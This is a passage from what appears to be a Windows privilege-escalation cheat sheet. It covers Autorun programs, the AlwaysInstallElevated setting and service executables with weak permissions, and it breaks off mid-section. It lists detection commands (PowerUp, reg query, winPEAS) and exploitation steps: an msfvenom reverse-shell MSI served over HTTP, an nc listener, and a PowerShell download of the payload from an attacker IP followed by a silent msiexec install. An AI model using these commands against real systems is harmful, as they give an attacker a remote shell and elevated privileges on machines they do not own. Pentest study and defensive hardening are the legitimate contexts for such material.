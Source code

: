 # Victim
cd C:\Program Files\Autorun Program\
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://<IP>/program.exe', '.\program.exe')

To execute it with elevated privileges we need to wait for someone in the Admin group to login.
AlwaysInstallElevated
Detection
powershell -exec bypass -command "& { Import-Module .\PowerUp.ps1; Invoke-AllChecks; }"

[*] Checking for AlwaysInstallElevated registry key...

AbuseFunction : Write-UserAddMSI
or

reg query HKLM\Software\Policies\Microsoft\Windows\Installer
reg query HKCU\Software\Policies\Microsoft\Windows\Installer

If both values are equal to 1 then it's vulnerable.
or

winPEAS.exe

[+] Checking AlwaysInstallElevated(T1012)

  AlwaysInstallElevated set to 1 in HKLM!
  AlwaysInstallElevated set to 1 in HKCU!
Exploitation
# Attacker
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f msi > program.msi
sudo python -m SimpleHTTPServer 80
sudo nc -lvp <PORT>

# Victim
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://<IP>/program.msi', 'C:\Temp\program.msi')
msiexec /quiet /qn /i C:\Temp\program.msi
Executable Files
Detection
powershell -exec bypass -command "& { Import-Module .\PowerUp.ps1; Invoke-AllChecks; }"

[*] Checking service executable and argument permissions...

ServiceName                     : filepermsvc
Path                            : "C:\Program Files\File Permissions Service\filepermservice.exe"
ModifiableFile                  : C:\Program Files\File Permissions Service\filepermservice.exe
ModifiableFilePermissions       : {ReadAttributes, ReadControl, Execute/Traverse, DeleteChild...}
ModifiableFileIdentityReference : Everyone
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'filepermsvc'
CanRestart                      : True
or
